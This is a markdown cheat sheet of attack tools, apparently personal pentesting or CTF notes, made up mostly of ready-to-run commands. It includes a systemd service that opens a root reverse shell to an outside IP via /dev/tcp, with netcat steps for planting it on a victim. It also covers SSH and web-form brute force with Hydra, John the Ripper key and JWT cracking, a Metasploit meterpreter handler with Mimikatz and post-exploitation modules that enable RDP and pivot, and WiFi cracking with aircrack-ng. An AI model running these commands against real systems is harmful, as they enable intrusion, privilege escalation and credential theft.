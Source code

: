 # 3 Attack Tools

## Reverse Shell

### Netcat

Install```sudo apt install ncat```

Start netcat listening on e.g. port 1234:```nc -lvnp 1234```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

## Create service

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim:```nc -vl 44444 > fab.service```
- on attacker: ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999:```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Passwords

- Crunch: create custom wordlists

### John the ripper

John the Ripper is a tool for offline password cracking

Crack keyfile PW

``` sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
/usr/share/john/ssh2john.py ssh-key-kay.txt > forjohn.txt
john forjohn.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Convert a JWT to a format John the Ripper can understand with [jwt2john](https://github.com/Sjord/jwtcrack):

``` sh
wget --quiet -O /usr/local/bin/jwt2john.py "https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py"
sed -i '1s;^;#!/usr/bin/env python\n;' /usr/local/bin/jwt2john.py
chmod +x /usr/local/bin/jwt2john.py
```

### Hydra

SSH PW Brute Force user "user"

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```

## Metasploit

### Config

Start PostgreSQL und Metasploit on boot

``` sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

``` sh
service postgresql start
service metasploit start
```

### Start msfconsole

Init Metaspoit and start the console

``` sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

``` sh
db_nmap -sV 10.10.201.217
```

Scan Target

``` sh
hosts
services
vulns
```

### Use Exploit

This is an example using an exploit with Metasploit:

``` sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

``` sh
getprivs
sysinfo
getuid
```

Start Mimikatz

``` sh
load kiwi
```

Try different exploits

``` sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

``` sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```

## WiFi

### Aircrack-NG suite

Send Kismet dump

``` sh
aircrack-ng -b 00:1E:58:B4:24:F4 /root/Kismet.dump
```

Preparing The WIFI Card for Airodump

``` sh
modprobe -r iwl3945
modprobe ipwraw
airmon-ng start [device]
airodump-ng [device]
airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
aircrack-ng -n 128 -b [bssid] [filename]-01.cap
```

### Kismet

Config [Kismet](https://www.kismetwireless.net)

- Config this file```/usr/local/etc/kismet.conf```
- And add a sourece e.g.```source=ipw2200,eth1,Intel```

Commands

- ss (type)
- L (choose WIFI+Channel)
- i (Info -> copy BSSID)

### Fluxion

Clone of the target Wi-Fi network.

